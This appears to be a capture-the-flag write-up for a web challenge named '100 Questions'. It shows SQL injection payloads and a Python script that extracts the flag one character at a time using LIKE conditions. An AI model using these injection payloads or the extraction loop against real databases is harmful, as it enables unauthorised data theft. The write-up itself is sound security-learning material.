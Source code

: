 # 100 Questions
web challenge with SQL fuckery
http://34.124.157.94:5002/ , [file](https://ctfd.nusgreyhats.org/files/8b25ca3778248aafbd2d4e89bf6e6bbf/dist.zip?token=eyJ1c2VyX2lkIjo3NDUsInRlYW1faWQiOjg4LCJmaWxlX2lkIjo2NX0.ZGjZAg.wE1wLvWbA94jeckACTsZQVOpW3c)

Analyzing the database file, we see that question `42` is the flag thingy.

We can try the `'OR ''='` shit but that doesn't do anything since it just says "Correct" and doesn't give us the flag

so we use `LIKE` to compare, e.g. stuff like `Answer LIKE 'grey{__________}'`
(`_` means a *singular character* btw, and `%` means like 0, 1, or multiple chrs)

so we "inject" `' OR Answer LIKE 'grey{__________}`  to make it:
`f"SELECT * FROM QNA WHERE ID = {qn_id} AND Answer = '' OR Answer LIKE 'grey{__________}'"` (I just tried increasingly many `_` until it said Correct lmao)

So I realized we could figure each letter out individually with a script:
```python
import requests
url = "http://34.126.139.50:10513/?qn_id=42&ans="
str = "' OR Answer LIKE 'grey{"

arr = []
id = 40
while not correct:
    char = chr(id)
    res = requests.get(url=f"{url}{str}{''.join(arr)}{char}%")
    if id == 127:
        print("end: "+f"{url}{str}{''.join(arr)}{char}")
    elif 'No input / wrong!!!!' in res.text:
        id += 1
    elif 'Correct!' in res.text:
        arr.append(char)
        id = 40
        print("Correct: "+f"{url}{str}{''.join(arr)}{char}")
    else:
        print(f"{url}{str}{''.join(arr)}{char}")
        print(id)
        print('uh oh')
```
We search from ascii 40-127 (which is like most printable characters)

We get `grey{1_C4N7_533}` but its wrong since `LIKE` does not distinguish between upper and lowercase, so we try alternating the `C<->c` and the `N<->n` until we get `grey{1_c4N7_533}` which works

Hoot




